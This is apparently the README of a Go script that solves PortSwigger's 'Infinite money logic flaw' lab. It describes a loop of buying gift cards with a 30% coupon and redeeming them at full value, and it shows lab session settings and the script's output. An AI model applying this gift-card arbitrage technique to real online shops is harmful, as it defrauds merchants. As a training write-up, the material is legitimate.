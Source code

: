 # Lab: Infinite money logic flaw
DIFFICULTY: PRACTITIONER
LAB: Solved
TAG: infinite-money-logic-flaw

## Lab Description
This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter

URL: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money

## Solution

We take advantage of a logic flaw, where we can buy a gift card for $10 with a 30% discount (using a coupon `SIGNUP30`, paying only $7), and after we can redeem the gift card again for $10, so we get a profit of $3 per gift cards.

The script increases the amount of gift cards to buy **until the cap of 99** gift cards per purchase is reached, below you can find the evolution of the purchases and balance:
```
Store Credit Evolution:  [$100 $130 $169 $217 $280 $364 $472 $613 $796 $1033 $1330 $1627]
GiftCard Qty Evolution:  [10   13   16   21   28   36   47   61   79   99    99    ended]
```

## Usage

Before running don't forget to update the configuration variables on the beginning of the file.

Required conf:
```go
const (
	baseURL = "https://acb81f601fca3cc3809b0e5000d900a0.web-security-academy.net/" // your url for the lab
	csrf          = "LCEepui73UVEdHlN3R84TDYwCdfXc5cX"         // get this info from a POST request to /cart/coupon using Burp, or any browser
	cookie        = "session=ZrqCi4oh69dHpHLxSdUv072OJNOfw8Sf" // get this info from a POST request to /cart/coupon using Burp, or any browser
	targetBalance = 1337
)
```

To run just do:
```
go run main.go
```

Expected ouput:
```
$ go run main.go

==================================
==> Current Store Credit: $ 100
=> Buying 10 gift cards to redeem.
==================================

=== Request POST cart
status:  200 OK

=== Request POST cart/coupon
status:  200 OK

=== Request POST cart/checkout
status:  200 OK

=== Request POST gift-card | coupon: WEjfEKdqJu
status:  200 OK

...

Finished executing, current balance: $ 1627
```